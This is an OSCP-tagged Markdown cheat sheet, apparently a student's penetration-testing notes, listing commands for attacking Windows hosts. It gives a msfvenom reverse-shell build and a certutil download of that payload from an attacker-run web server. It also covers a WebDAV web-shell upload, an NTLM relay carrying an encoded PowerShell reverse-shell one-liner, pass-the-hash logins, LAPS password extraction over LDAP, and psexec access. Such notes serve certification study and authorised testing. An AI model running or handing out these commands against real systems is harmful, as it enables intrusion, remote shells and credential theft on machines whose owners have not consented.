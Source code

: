 Tags: [[OSCP]]

---
## Quick Reference
- `dir /s/b local.txt` - Usually `C:\` or `C:\users\username\desktop\`
- `dir /s/b proof.txt` - Usually `C:\Users\Administrator\Desktop\`
- `dir /s/b *.txt`
- RDP: `xfreerdp /u:username /p:password /v:192.168.x.x /cert:ignore`
- RevShell.exe: `msfvenom -p windows/shell_reverse_tcp LHOST=192.168. LPORT=4444 -f exe -o revshell.exe`
- Compile C: `/usr/bin/x86_64-w64-mingw32-gcc cfile.c -o output.exe`
- Compile C#: `msbuild projectname.csproj`
- Transfer to Windows host: `certutil -split -urlcache -f http://192.168.x.x/revshell.exe C:\\Users\\username\\revshell.exe`
- Fix Broken Path: `set PATH=%PATH%C:\Windows\System32;C:\Windows\System32\WindowsPowerShell\v1.0;`
- Windows Exploit Suggester: [https://github.com/AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
## Port Enumeration (from Kali)
- **HTTP/WebDav (80)**: `cadaver 192.168.`
	- Run `put /usr/share/webshells/aspx/cmdasp.aspx` to upload command shell, then access via browser
- **Kerberos (88)**: `kerbrute userenum -d domain.name --dc 192.168. users`
- **SMB (139/445)**: `sudo nmap --script smb-vuln* -p 139,445 192.168.`
	- `smbclient -U user \\\\192.168.`
	- `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.xx.xxx -c "powershell -enc JABjAGwAaQBlAG4AdA..."` (base64 powershell one-liner)
		- Kali: Call fake directory `dir \\192.168.xx.xxx\fake` for reverse shell
	- Pass the Hash: `smbclient \\\\192.168.xx.xxx\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b`
- **LDAP (389)**: `sudo nmap -n -sV -Pn -script 'ldap* and not brute' 192.168.`
	- Domain Name found (LDAP Search): `ldapsearch -v -x -b 'DC=domain,DC=name' -H 'ldap://192.168.' '(objectclass=*)'`
	- Use credentials to find admin password `ldapsearch -x -H 'ldap://192.168.x.x' -D 'domain\user' -w 'userpassword' -b 'dc=domain,dc=name' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd`
		- To Login `psexec.py domain.name/administrator: 'adminpassword'@192.168.x.x` to login
## Impacket 
Psexec.py - `/usr/share/doc/python3-impacket/examples/psexec.py`
`impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.xx.xxx`
## PrivEsc (From Windows)
[HackTricks - Windows PrivEsc Checklist](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
- Group memberships of the current user: `whoami /groups`
	- Existing groups: `net localgroup` or `Get-LocalGroup`	
	- Inspect groups `Get-LocalGroupMember groupname`
- Existing users: `net user` or `Get-LocalUser`
	- Look for *Remote Desktop Users* (access with RDP) and *Remote Management Users* (Access with WinRM)
	- Look for *Log on as a batch job* and schedule a task to execute a program
	- Try `backupadmin`: `runas /user:backupadmin cmd` (Prompt for password)
- Operating system, version and architecture: `systeminfo` 
	- Wiki Windows build number
	- Look for [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits?tab=readme-ov-file)
- Network information: `ipconfig /all`
	- Check `route print`
	- Show active connections `netstat -ano`
- Installed applications: 
	- 32-bit applications `Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname` (Note - Remove `select displayname` for full properties)